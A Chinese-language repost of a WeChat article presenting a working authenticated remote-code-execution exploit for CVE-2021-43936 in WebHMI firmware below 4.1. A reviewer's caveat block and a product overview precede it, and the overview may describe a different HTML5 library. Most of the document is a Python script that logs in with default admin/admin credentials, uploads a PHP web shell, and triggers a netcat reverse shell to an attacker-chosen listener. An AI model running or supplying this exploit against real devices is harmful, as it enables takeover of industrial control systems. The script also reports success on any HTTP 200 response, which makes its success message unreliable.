

# WebHMI 4.0  新鲜出炉 CVE-2021-43936 EXP

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：WebHMI固件设备，开头产品介绍可能混其他HTML5库
- 本文讨论：CVE-2021-43936 files.php PHP上传执行
- 版本、权限与配置前提：&lt;4.1测试4.0.7475，已知管理员密码，Linux nc；HTTP
- 资料类型：认证任意上传RCE脚本；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 开头称可部署WordPress/Node等通用HTML5库，与有固件/API的WebHMI产品身份可能混同需核
- 200响应就打印Got shell不证明回连；while True listener.wait完成后可空转
- 脚本uid1固定、类内依赖全局变量；无原作者出处/厂商修复链接

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- 厂商身份、4.1固定边界及文件执行配置待原研核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WrXVQ-2saJsy0mt3IbfKRg)



WebHMI 概述：  

-------------

兼容 Mac、PC、Linux 和能够显示 HTML5 和执行 JavaScript 的移动设备上的所有浏览器，包括：Chrome、Firefox、Safari、Internet Explorer（推荐 8+、9+）、iOS 上的 Mobile Safari 和 Chrome、移动浏览器在安卓上

利用 HTML5、JavaScript 和 CSS 的开放标准  

独特的标记选项可快速将实时数据添加到现有 HTML 页面  

程序化 JS 接口允许高级应用程序 UI 开发  

可以在任何生成或提供 HTML 的 Web 应用程序平台上运行，包括：  ASP.NET 和 .NET MVC、PHP、Ruby on Rails、NodeJS、WordPress 等静态 HTML 站点…… 等等！  

兼容 Angular、VueJS 等前端框架。  

支持通过 SSL 的身份验证和安全通信  

要求无插件，Java 小程序，或 ActiveX 控件执行; 只需将浏览器指向您的 Web 应用程序即可启动  

需要部署没有编译或包装; 支持文件复制部署或与您自己的部署方法集成  

实时数据直接传送到您的浏览器，减少您的 web 应用程序服务器的负载  

```
# Exploit Title: WebHMI 4.0 - Remote Code Execution (RCE) (Authenticated)
# Date: 12/12/2021
# Version: WebHMI Firmware < 4.1

# CVE: CVE-2021-43936
# Tested on: WebHMI Firmware 4.0.7475


#!/usr/bin/python
import sys
import re
import argparse
import pyfiglet
import requests
import time
import subprocess


banner = pyfiglet.figlet_format("CVE-2021-43936")
print(banner)
print('Exploit for CVE-2021-43936')
print('For: WebHMI Firmware < 4.1')


login = "admin" #CHANGE ME IF NEEDED
password = "admin" #CHANGE ME IF NEEDED


class Exploit:


  def __init__(self, target_ip, target_port, localhost, localport):
    self.target_ip = target_ip
    self.target_port = target_port
    self.localhost = localhost
    self.localport = localport


  def exploitation(self):
    payload = """<?php system($_GET['cmd']); ?>"""
    payload2 = """rm+/tmp/f%3bmknod+/tmp/f+p%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+""" + localhost + """+""" + localport + """+>/tmp/f"""


    headers_login = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'application/json, text/javascript, */*; q=0.01',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/json',
    'X-WH-LOGIN': login,
    'X-WH-PASSWORD': password,
    'X-Requested-With': 'XMLHttpRequest',
    'Connection': 'close',
    'Content-Length': '0'
    }


    url = 'http://' + target_ip + ':' + target_port 
    r = requests.Session()


    print('[*] Resolving URL...')
    r1 = r.get(url)
    time.sleep(3)


    print('[*] Trying to log in...')
    r2 = r.post(url + '/api/signin', headers=headers_login, allow_redirects=True)
    time.sleep(3)


    print('[*] Login redirection...')
    login_cookies = {
    'X-WH-SESSION-ID':r2.headers['X-WH-SESSION-ID'],
    'X-WH-CHECK-TRIAL':'true',
    'il18next':'en',
    }
    r3 = r.post(url + '/login.php?sid=' + r2.headers['X-WH-SESSION-ID'] + '&uid=1',cookies=login_cookies)
    time.sleep(3)


    print('[*] Uploading cmd.php file...')
    files = {
    'file': ('cmd.php', payload, 'application/x-php')
    }
    r4 = r.post(url + '/files.php', files=files, cookies=login_cookies)
    time.sleep(3)


    print('[*] Setting up netcat listener...')
    listener = subprocess.Popen(["nc", "-nvlp", self.localport])
    time.sleep(3)


    print('[*] Executing reverse shell...')
    print('[*] Watchout for shell! :)')
    r5 = r.get(url + '/uploads/files/cmd.php?cmd=' + payload2, cookies=login_cookies)


    if (r5.status_code == 200):
      print('[*] Got shell!')
      while True:
        listener.wait()
    else:
      print('[-] Something went wrong!')
      listener.terminate()


def get_args():
  parser = argparse.ArgumentParser(description='WebHMI Firmware <4.1 Unrestricted File Upload + Code Execution (Authenticated)')
  parser.add_argument('-t', '--target', dest="url", required=True, action='store', help='Target IP')
  parser.add_argument('-p', '--port', dest="target_port", required=True, action='store', help='Target port')
  parser.add_argument('-L', '--listener-ip', dest="localhost", required=True, action='store', help='Local listening IP')
  parser.add_argument('-P', '--localport', dest="localport", required=True, action='store', help='Local listening port')
  args = parser.parse_args()
  return args


args = get_args()
target_ip = args.url
target_port = args.target_port
localhost = args.localhost
localport = args.localport


exp = Exploit(target_ip, target_port, localhost, localport)
exp.exploitation()
```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
